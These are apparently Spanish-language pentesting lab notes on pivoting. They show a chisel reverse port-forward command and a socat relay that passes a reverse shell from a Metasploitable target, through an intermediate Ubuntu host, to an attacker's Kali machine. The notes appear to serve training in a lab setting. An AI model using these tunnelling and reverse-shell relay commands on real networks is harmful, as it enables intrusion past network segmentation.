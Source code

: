 Tendremos el siguiente escenario:
![[Pasted image 20240115131504.png]]

# Repositorio Socat
```
https://github.com/3ndG4me/socat
```

# Repositorio Chisel
```
https://github.com/jpillora/chisel/releases
```
![[Mis apuntes/ANEXOS/Pasted image 20230804090601.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230804090727.png]]

Nos lo descargamos en nuestra máquina atacante:
![[Pasted image 20240115131742.png]]
![[Pasted image 20240115131805.png]]

Y ahora ejecutamos el servidor con chisel desde nuestra máquina kali para recibir las conexiones:
![[Pasted image 20240115132345.png]]

A continuación, ejecutamos el siguiente comando en la máquina intermedia para indicar que el puerto 80 de la máquina final se convierta en el puerto 5000 de mi máquina atacante:
```bash
./chisel client 192.168.0.37:1234 R:5000:10.10.10.11:80
```
![[Pasted image 20240115132610.png]]

Y entonces ahora nuestro localhost de la máquina kali por el puerto 5000 será el puerto 80 de la máquina final:
![[Pasted image 20240115132637.png]]

Ahora, si queremos conseguir una reverse shell, tenemos que utilizar socat, ya que nosotros podemos ver a la máquina metasploitable, pero sin embargo esta máquina no nos ve a nosotros, por lo que dentro de la máquina intermedia ejecutamos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
![[Mis apuntes/ANEXOS/Pasted image 20230722162236.png]]

Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:
![[Mis apuntes/ANEXOS/Pasted image 20230722162820.png]]

Y en Kali recibimos la conexión:
![[Mis apuntes/ANEXOS/Pasted image 20230722162833.png]]